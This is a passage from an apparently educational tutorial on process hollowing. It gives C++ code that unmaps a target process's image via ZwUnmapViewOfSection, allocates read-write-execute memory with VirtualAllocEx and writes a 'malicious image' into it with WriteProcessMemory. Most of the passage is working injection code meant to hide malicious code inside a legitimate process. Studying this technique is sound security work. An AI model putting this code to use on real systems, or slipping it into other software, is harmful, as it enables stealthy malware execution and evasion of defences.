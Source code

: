 After the base address is stored, we can begin un-mapping memory. We can use `ZwUnmapViewOfSection` imported from _ntdll.dll_ to free memory from the target process.

```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

At step four, we must begin by allocating memory in the hollowed process. We can use `VirtualAlloc` similar to _step two_ to allocate memory. This time we need to obtain the size of the image found in file headers. `e_lfanew` can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the `SizeOfImage` from the Optional header.

```cpp
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```

Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use `WriteProcessMemory` and the size of headers to determine where to stop.

```cpp
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```
